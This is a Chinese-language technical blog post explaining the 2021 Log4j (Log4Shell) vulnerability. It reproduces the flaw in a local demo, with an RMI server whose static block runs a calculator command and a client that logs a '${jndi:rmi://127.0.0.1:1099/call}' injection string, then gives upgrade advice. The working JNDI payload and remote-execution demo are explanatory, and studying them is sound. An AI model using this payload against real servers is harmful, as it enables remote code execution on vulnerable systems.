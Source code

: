 ```yaml
---
title: log4j漏洞攻击
date: 2021-12-14 23:16:11
updateDate: 2021-12-14 23:16:11
tag_img:
category: java
tags:
- java
- log4j
- 日志
keywords:
- sdvdxl
- java
- log4j
- 日志
---
```


事情起因于前几天（2021-12-10号）被全球广泛应用的组件Apache Log4j被曝出一个高危漏洞，攻击者仅需一段代码就可远程控制受害者服务器的事件。受影响的版本为 `Apache Log4j 2.x <= 2.14.1`。

其实这个本来算是log4j的一个特性，这个玩意在log4j里面叫做 [lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html)，简而言之可以使用一些特定的变量进行数据处理包括远程调用。但也因为这个特性，如果是用户填写的内容被解释了，那么可能会造成远程调用，执行任意代码的危害，接下来我们演示下怎么重现这个问题。

代码已经放在了[码云-sdvdxl](https://gitee.com/sdvdxl/log4j-attack-demo)上，该工程是 maven+springboot项目，建议使用 idea 或者 eclipse 打开操作和运行程序（本人使用 mac + idea 作为开发调试环境）

>**仅供技术学习交流使用，切勿用来进行非法行为！如果因此造成危害，后果自付！**

## log4j远程执行过程

方便起见，这里使用了 [spring-start](https://start.spring.io/) 创建了一个 springboot 项目，完整代码参见上面连接。

该演示工程主要分为两部分：

- RMI Server（参见源码 `top.todu.log4j.attack.demo.rmi.server` 包的 java 文件）
- RMI Client （参见 `top.todu.log4j.attack.demo.Application` 文件）

### RMI server

RMI server 非常简单（没有深入研究rmi，所以简单写了个demo），主要内容解释：

1. RmiServerDemo 作为主程序，注册一个服务名称为 `call` 可以供 client 调用
1. 绑定端口 1099

### TestRunCommand

这个类起作用的就是静态代码块，被远程调用的时候，该静态代码库就会被执行

```java
static {
    try {
      // 要执行的命令，这里测试是在我自己的电脑上打开计算器程序
      Runtime.getRuntime().exec("open -a Calculator");
    } catch (IOException e) {
      e.printStackTrace();
    }
    System.out.println("rmi");
  }
```

这个代码远程执行的命令是：`open -a Calculator` 打开计算器（mac 系统上的命令），如果你是运行在windows上，可以将它改为其他命令，比如 `calc`。

运行 `RmiServerDemo` 启动 rmi server。

### RMI client

客户端代码非常简单，就是一个普通的带有 main 方法的类，加点打印日志的代码：

```java
package top.todu.log4j.attack.demo;

import java.util.concurrent.TimeUnit;
import org.apache.logging.log4j.Logger;
import org.slf4j.LoggerFactory;

// 模拟线上服务
// @Slf4j
public class Application {

  public static void main(String[] args) throws InterruptedException {
    Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
    String username = "${jndi:rmi://127.0.0.1:1099/call}";
    logger.info("用户登录，username: {}", username);
    logger.info("测试日志输出");
    System.out.println(LoggerFactory.getILoggerFactory().getClass().getName());
    TimeUnit.SECONDS.sleep(5);
  }
}

```

核心代码只有：

```java
Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
String username = "${jndi:rmi://127.0.0.1:1099/call}";
logger.info("用户登录，username: {}", username);
```

1. get 一个logger
2. 模拟用户（黑客）输入内容
3. 打印日志

启动main方法，稍等片刻，即可看到打开了本机的计算器；同时 client 打印了日志：

```txt
rmi
TestRunCommand{测试用toString}
log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 用户登录，username: top.todu.log4j.attack.demo.rmi.server.ReferenceWraper@3e08ff24
[]wExlog4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 测试日志输出
[]wExorg.apache.logging.slf4j.Log4jLoggerFactory
```

但是，server端只打印了 **rmi server started** 信息。

因为server和client都是运行在本机上，所以效果不明显；如果 server 部署到另一台机器， client 还在我的电脑上，那么我重新运行 client的话，还是会在我本就上打开我的计算器。

很奇怪是不是？这个跟rmi的原理有关： rmi 远程调用的时候，server将相关代码序列化传输到client上，client再在本机上运行这段代码。所以，如果别有用心的人写了个 rmi server，上面写了个比较厉害的代码（比如下载木马病毒，窃取数据库，甚至删库），那么可想而知，你的服务器是不是就炸了。

这就是这次 slf4j 的漏洞的危害，级别被定义为了 `Critical` 非常严重！

## 漏洞修复方法

如果用了log4j，还是老老实实的升级版本吧，最保险。截止目前，官方已经升级了版本到 `2.16.0`， 从 `2.15.0` 开始，默认禁用此特性，后续也可能删除。

## 问题？

我的服务使用的是 springboot，里面依赖了包含有log4j的包，会受到危害吗？

这里先简单说一下：

首先查看项目依赖：

maven 命令：

`mvn dependency:tree >tree` 查看 tree 文件内容，看看是否依赖 log4j

1. 如果项目明确指定使用的是 log4j（这里说的是log4j 2.xx）， 并且版本在 2.14.1 及其以下，毋庸置疑，受到影响
1. springboot默认依赖的是logging框架，使用的是 logback，如果整个项目未包含任何log4j的内容，那么显然不在影响范围内
1. 如果实际指定日志框架为 logback，只含了 log4j-core ，理论上也不会收到影响

所以，重点是要看实际日志输出的时候是用的哪套框架。
